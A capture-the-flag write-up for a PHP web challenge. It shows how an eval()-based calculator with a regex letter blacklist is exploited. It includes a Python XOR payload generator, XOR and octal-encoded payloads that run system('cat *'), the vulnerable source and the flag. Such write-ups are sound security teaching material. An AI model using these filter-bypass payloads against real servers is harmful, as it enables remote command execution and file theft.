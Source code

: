# Most Secure Calculation 2

A version 2 calculation web page

## Step 1, enumeration:
Inspec source-code, we get the html comment:

	Hi Selina, 
	I learned about regex today. I have upgraded the previous calculator. Now its the most secure calculator ever.
	The calculator accepts only numbers and symbols. 
	I have hidden some interesting things in flag.txt and I know you can create an interesting equation to read that file.

Not Allowed Characters: all characters, $, <, >, =

## Step 2, exploit:
Ok, inject some symbols we get some error and know eval() is using: 
```html
Result : Parse error: syntax error, unexpected ';' in /var/www/html/index.php(12) : eval()'d code on line 1
```

With blacklist characters it sound just like XOR. Ok, i don't finished this challenge, i stick with XOR but it doesn't work and then i relize we can XOR: string ^ string = string, not just 2 single character together. Ok, ye, ye leave me alone!!

About XOR algorithm: XOR is OR operation, (1 ^ 1 = 0 ; 0 ^ 0 = 0), (1 ^ 0 = 1), example:

	'a' ^ 'b' = 3
	01100001
	^
	01100010
	--------
	00000011

When we XOR two string, characters will sequence XOR each other(abcd^abcd), but when one longer than the other: ab ^ abababa

`tool`: generate_xor.py
```python
# bad_girls = $, any characters(\n), <, >, =
valid = r"0123456789!\"#%&'()*+,-./:;?@[]^_{}~`\\|"

def xor(a, b):
	return chr(ord(a) ^ ord(b))

payload = "system" # cat

flag = 0
one = ''
two = ''
for p in payload:
	for a in valid:
		for b in valid:
			if xor(a, b) == p:
				one += a; two += b
				flag = 1
				break
		if flag:
			flag = 0
			break

print(f"('{one}'^'{two}')")

```
**payload**: 
```php
system(cat *) : ('393480'^'@@@@]]')(('8!4'^'[@@').' *')
```

**Octal encoding**:
More easy way, with *double quote*, we can using hex, octal encoding to bypass the filter, but hexdedimal prefix(ex: \x08), 'x' character is blocked so we can't used this.

Ok, let's use octal(number from 0 to 7, which is allowed) encoding.

**Reference**:
String literal in python: https://stackoverflow.com/questions/50580002/what-does-a-backslash-mean-in-a-string-literal
	
	Using back slash to specify denote special type of string literals.

About hexdecimal, notice *hex identifier*: https://learn.sparkfun.com/tutorials/hexadecimal/

	Identifier: 0x47DE, #FF7734, %20,\x0A, &#x	
	
About octal prefix:

	077, 0o77, \077

**payload**:
```php
system('cat *') : ("\163\171\163\164\145\155")("\143\141\164 *")
`cat *` : `\143\141\164 *`
```

`source-code`: index.php
```php
<?php
if (isset($_POST["equation"]) && !is_array($_POST["equation"])) {
    if (empty($_POST["equation"])) {
        echo "Please enter some eqation.";
    } else {
        if (preg_match_all("^[a-zA-Z\$\>\<\=]^", $_POST["equation"])) {
            echo "Oow ! Bad equation.";
        } else if (strlen($_POST["equation"]) >= 80) {
            echo "Oow ! You have entered an equation that is too big for me.";
        } else {
            echo "<h1> Result : <br>";
            eval("echo " . $_POST["equation"] . ";");
            echo "</h1>";
        }
    }
}

```
**flag**: KCTF{sHoUlD_I_uSe_eVaL_lIkE_tHaT}
